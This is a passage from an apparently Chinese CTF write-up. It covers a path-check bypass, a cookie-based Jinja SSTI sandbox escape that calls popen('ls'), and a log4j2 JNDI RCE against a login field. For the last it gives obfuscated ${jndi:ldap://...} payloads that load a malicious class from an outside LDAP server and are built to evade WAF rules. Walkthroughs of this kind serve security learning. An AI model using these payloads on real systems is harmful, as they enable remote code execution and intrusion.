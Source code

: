 在请求http://localhost/admin?test=123

![ ](https://img-blog.csdnimg.cn/img_convert/bf88a237bdc35899db9ffb34c2c18d04.webp?x-oss-process=image/format,png)

而请求/admin;xxx=1&test=123

![ ](https://img-blog.csdnimg.cn/img_convert/9fdf2034e8c6864b35616401982f53ec.webp?x-oss-process=image/format,png)

对`request.path` 来说其值为`/admin;xxx=1`并没有把`path parameter`去掉，在代码中的判断使用的是`request.full_path`
而在`request.full_path`中是包含了`query string`因此只要发起这样的请求：随意增加一个参数，并且参数值是以.js?结尾即可绕过校检`/admin?xxx=.js?`这里不能用`;`的原因是`request.path`并没有去掉 `path parameter` 在没有带上`query string`的情况下`full_path：/admin;x=.js?`满足`.js?`而`request.path:/admin;x=.js`路由表中没有`admin;x=.js`从而404

进入之后就是常规的ssti绕沙箱

![ ](https://img-blog.csdnimg.cn/img_convert/5146359cd1f86ddf4d5dbd6f2c9d8b1a.webp?x-oss-process=image/format,png)

```
aa:__class__ 
bb:__mro__
cc:__subclasses__
dd:__init__
ee:__globals__
```

`((((request|attr(request.cookies.get('aa'))|attr(request.cookies.get('bb'))|list).pop(-1)|attr(request.cookies.get('cc'))()).pop(117)|attr(request.cookies.get('dd'))|attr(request.cookies.get('ee'))).get('popen')('ls').read())`

![ ](https://img-blog.csdnimg.cn/img_convert/c9801d185e8c4c2cffc019efff18c473.webp?x-oss-process=image/format,png)

个人实践后发现貌似得到不了flag，也不知道原因在哪，下面是我的做题截图![image-20220115174547552](https://img-blog.csdnimg.cn/img_convert/8091f4f3ec63390e6622b3aba55baf4e.png)

请知道问题所在的大佬在评论区留言，谢谢

### 【Shiro?】

虽然登录界面伪造了一个shiro反序列化漏洞，但是实际漏洞点是在登录处的log4j2RCE漏洞。起一个ldap服务用于加载恶意类。运行环境Java版本较高需要bypass，即可正常攻击，可利用JNDIExploit工具进行攻击。用{::-n}等规则替换关键字和ip地址即可绕过规则， 也可用woodpecker生成payload， 在登录点username处输入payload即可

```
${${kBQ:aUR:j:-j}${MoYvsH:XAND:kG:-n}${EdAUxY:ck:pyjko:RIasA:-d}${hNhKmh:E:c:-i}${l:MLjM:-:}${qvO:STYFpz:ufnqW:V:-l}${G:mIWH:-d}${er:WLe:J:Pl:kCih:-a}${yHjTcA:FM:e:IktQAC:-p}${bvaWm:WW:-:}${kB:hGD:GPI:-/}${GC:VOUh:dqINYx:FK:n:-/}${v:KHSOc:-1}${Li:-9}${QtYkc:o:CQBzJl:D:-2}${KmJs:oJznyf:oIDrB:zmdK:-.}${F:ttejsH:k:rI:-1}${gN:-6}${tB:aJqxS:-8}${arq:J:wcas:d:-.}${rh:Rcz:-2}${z:Gvz:-.}${F:-2}${IsgAtf:-3}${CPsF:QRLx:dICC:rMp:-8}${o:Kk:hmhWl:XjIbnJ:-:}${kp:-1}${PeOoN:Y:mIFi:-3}${P:-8}${YMhc:EJ:uD:Wwytb:-9}${OLPfY:YTvJf:m:OXdV:-/}${rf:Uagil:PDiuPH:-T}${PBKgU:NhAyi:MpIN:-o}${awgT:-m}${aS:TCt:xnzwfF:UNaIr:Ppp:-c}${II:kNl:uHtTJi:WXfR:UjzJC:-a}${jBHdVl:PB:-t}${bkgfV:sYiJoF:uBIIDN:-B}${WROI:-y}${U:F:GAnUD:-p}${nQMY:-a}${yqYF:-s}${cVWi:rs:NFv:f:wmqbfG:-s}${XjHqnt:sP:uSjj:dWkcba:njEm:-/}${CY:-T}${qeW:-o}${tLipT:GjC:YGc:-m}${WmRvEy:pIxR:ur:LroYD:woOzUb:-c}${ye:d:sR:NsdI:-a}${OyXQBo:KSC:blRvH:iMLj:DxG:-t}${MOGEk:VnN:-E}${nxrEv:dKbcF:iEWJOf:-c}${Jd:GTm:rJ:KsWYpp:oz:-h}${UjBT:hMh:-o}}

${j${iqV:xQtVwM:-n}d${WnFLI:-i}${j:YxXkbc:QpCi:k:QA:-:}${tuNJ:pa:vDTPc:-l}dap:${mxyDc:-/}/${X:A:wJfVUX:-1}${u:si:TmOs:-9}2${x:DGbnfN:-.}${h:Ga:H:Gmiv:zYQf:-1}6${dqV:KYvLFD:Edfgq:HzKoK:-8}${KNzKwB:IEJiU:-.}${QMgb:NTVFr:gM:-2}.2${VPb:kgVqX:vMNFgF:EV:iyt:-3}8:1${nOhh:uTaV:TlMnJ:J:FM:-3}${zUKT:mVGhb:RHbf:ypvu:-8}${y:bPcT:g:Ya:-9}${EDXJQ:Eetclr:oSVeHz:J:-/}To${GbLFYe:UpYi:-m}cat${UaV:Mo:Fu:UDboa:ePDD:-B}${uzqh:O:lxU:UFRpQk:gGbqT:-y}p${l:pJeje:P:s:vjiPI:-a}${LCJ:vM:Ebt:LJmS:-s}${pXuvuL:oWk:kXTgAe:kml:-s}${WbhDYc:u:Ne:Slcje:-/}${M:-T}omc${kBm:V:iVQ:-a}${cYCt:-t}${iGHgwi:I:-E}cho}
```
